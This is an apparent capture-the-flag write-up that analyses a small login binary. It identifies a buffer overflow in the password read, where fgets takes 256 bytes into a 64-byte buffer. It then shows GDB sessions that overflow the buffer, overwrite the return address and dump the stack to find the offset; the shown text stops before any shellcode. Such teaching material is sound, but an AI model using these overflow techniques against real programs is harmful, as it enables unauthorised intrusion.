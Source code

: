 ```
  }
  return uVar1;
}
```

`main`
  - Asks for a username and passes it to the `verify_user_name` function.
  - If the username is equal to `dat_wil`, it then asks for a password and passes it to the `verify_user_pass` function.
  - Regardless of whether the password is valid or not, an error message is printed.
  - The remaining instructions either set a return value or display another error message.

There are no hidden functions or obvious ways to spawn a shell from the code itself, which means we’ll need to inject our own `shellcode` and find a way to execute it. </br>

One interesting thing is that the password is stored in a 64-byte buffer (`local_54[64]`), but `fgets` reads up to `0x100 (256)` bytes into it — this results in a buffer overflow.


### Vulnerability found 

The vulnerability lies in the size passed to `fgets`, which exceeds the size of the buffer, resulting in a buffer overflow.

### Dynamic Analysis

We start by unsetting the environment variable in GDB and placing breakpoints after the first and second calls to `fgets`.
```
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) b *0x08048579
``` 

We'll fill the second buffer to observe how the program behaves:
```
(gdb) r < <(python -c 'print "dat_wil\n" + "A"*256')
...
Breakpoint 2, 0x08048579 in main ()
(gdb) c
...
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We observed that the expected username is `dat_wil`, as the program break before the password comparison. </br> 
More importantly, filling the second buffer completely leads to a segmentation fault and overwrites the return address of main with `0x41414141`.

Next, we set a breakpoint before the second `scanf` to inspect the stack and determine the correct offset to overwrite the return address.
```
(gdb) b *0x08048574
(gdb) r < <(python -c 'print "dat_wil\n" + "A"*256')
(gdb) x $ebp + 4
0xffffd62c:	0xf7e45513
(gdb) x/50x $esp 
0xffffd5c0:	0xffffd5dc	0x00000064	0xf7fcfac0	0xf7ec34fb
0xffffd5d0:	0xffffd808	0x0000002f	0xffffd62c	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd600:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd610:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd620:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd630:	0x41414141	0x41414141	0x41414141	0x00414141
0xffffd640:	0x00000000	0xffffd61c	0xffffd6cc	0x00000000
```
